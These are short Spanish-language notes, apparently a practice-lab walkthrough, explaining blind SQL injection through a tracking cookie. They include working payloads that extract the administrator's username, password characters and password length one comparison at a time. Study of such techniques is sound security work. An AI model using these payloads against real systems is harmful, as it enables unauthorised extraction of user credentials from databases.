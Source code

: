 ## Notas sobre la técnica de inyección SQL ciega usada

El ataque se basa en usar **consultas anidadas (nested queries)** y comparar resultados con valores específicos para extraer información carácter por carácter mediante respuestas condicionales.

### Ejemplo básico de comparación con nested query

(select 'a') = 'a'

Esto devuelve `true`. Se usa para comparar si una subconsulta devuelve un valor específico.

### Validación del nombre de usuario carácter por carácter

Para saber si el primer carácter del usuario `administrator` es `'a'`:

(select substring(username, 1, 1) from users where username='administrator') = 'a'

Esto se traduce en la cookie:

TrackingId=ua4L8MnfGDQiYRX5' and (select substring(username,1,1) from users where username='administrator')='a'-- -

Si la respuesta es positiva, sabemos que el primer carácter es `'a'`.

De forma similar, para el segundo carácter que es `'d'`:

(select substring(username, 2, 1) from users where username='administrator') = 'd'

### Extracción de la contraseña

Se puede aplicar la misma técnica para la contraseña, por ejemplo para el segundo carácter:

(select substring(password, 2, 1) from users where username='administrator') = 'd'

### Comprobar la longitud de la contraseña

Podemos validar la longitud con una consulta condicional:

(select 'a' from users where username='administrator' and length(password) = 20) = 'a'

Y se inserta en la cookie:

TrackingId=ua4L8MnfGDQiYRX5' and (select 'a' from users where username='administrator' and length(password)=20)='a'-- -

---

Con estas comprobaciones iterativas y condicionales, el script realiza la fuerza bruta para descubrir la contraseña completa.
